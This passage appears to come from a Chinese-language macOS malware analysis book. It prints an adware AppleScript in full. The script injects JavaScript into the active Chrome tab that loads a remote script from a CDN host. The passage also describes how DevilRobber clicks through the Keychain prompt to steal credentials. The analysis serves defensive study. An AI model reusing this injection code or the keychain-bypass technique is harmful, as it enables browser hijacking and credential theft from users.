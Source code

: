 让我们从一个简单的示例开始。之前在本章中，我们讨论了一个用 Python 编译的广告软件样本，并指出它包含一个 AppleScript 组件。Python 代码解密存储在 `wvd.PLAIN_TEXT_SCRIPT` 变量中的 AppleScript，然后通过调用 `osascript` 命令执行它。Listing 4-18 显示了这个 AppleScript：

```
global _keep_running
set _keep_running to "1"

repeat until _keep_running = "0"
  «event XFdrIjct» {}
end repeat

on «event XFdrIjct» {}
  delay 0.5
  try
    if is_Chrome_running() then
      tell application "Google Chrome" to tell active tab of window 1 1
        set sourceHtml to execute javascript "document.getElementsByTagName('head')[0].
        innerHTML"
        if sourceHtml does not contain "493024ui5o" then
          tell application "Google Chrome" to execute front window's active tab javascript 2
          "var pidDiv = document.createElement('div'); pidDiv.id = \"493024ui5o\"; 
          pidDiv.style = \"display:none\"; pidDiv.innerHTML = 
          \"bbdd05eed40561ed1dd3daddfba7e1dd\";
          document.getElementsByTagName('head')[0].appendChild(pidDiv);"
          tell application "Google Chrome" to execute front window's active tab javascript 
          "var js_script = document.createElement('script'); js_script.type = \"text/
          javascript\"; js_script.src = \"https://1049434604.rsc.cdn77.org/ij1.min.js\"; 3
          document.getElementsByTagName('head')[0].appendChild(js_script);"
        end if
      end tell
    else
      set _keep_running to "0"
    end if
  end try
end «event XFdrIjct»

on is_Chrome_running()
  tell application "System Events" to (name of processes) contains "Google Chrome" 4
end is_Chrome_running
```

Listing 4-18: 恶意 AppleScript（未指定的广告软件）

简而言之，这段 AppleScript 调用了一个`is_Chrome_running`函数，通过向操作系统询问进程列表中是否包含`"Google Chrome"`来检查 Google Chrome 是否正在运行。如果是，脚本会获取当前标签页的 HTML 代码，并检查是否存在注入标记：`493024ui5o`。如果没有找到这个标记，脚本就会注入并执行两段 JavaScript 代码。通过我们的分析，可以确定这段 AppleScript 注入的 JavaScript 的最终目标是从*https://1049434604.rsc.cdn77.org/*加载并执行另一个恶意的 JavaScript 文件*ij1.min.js*，在用户的浏览器中运行。不幸的是，由于在分析时该 URL 已下线，我们无法确切知道该脚本会做什么，尽管像这样的恶意软件通常会在用户的浏览器会话中注入广告或弹窗，以便为其作者创造收入。当然，注入的 JavaScript 也可能执行更恶意的操作，比如捕获密码或借助已认证用户的会话进行攻击。

一个相当古老的 Mac 恶意软件示例是利用 AppleScript 的 DevilRobber。^(11)虽然这个恶意软件主要集中在窃取比特币和挖掘加密货币，但它也瞄准了用户的钥匙串，试图提取账户、密码和其他敏感信息。为了访问钥匙串，DevilRobber 必须绕过钥匙串访问提示，它通过 AppleScript 实现了这一点。

具体而言，DevilRobber 通过 macOS 内置的`osascript`工具执行了一个名为*kcd.scpt*的恶意 AppleScript 文件。这个脚本发送了一个合成鼠标点击事件到钥匙串访问提示的“始终允许”按钮，从而允许恶意软件访问钥匙串中的内容（图 4-9）。
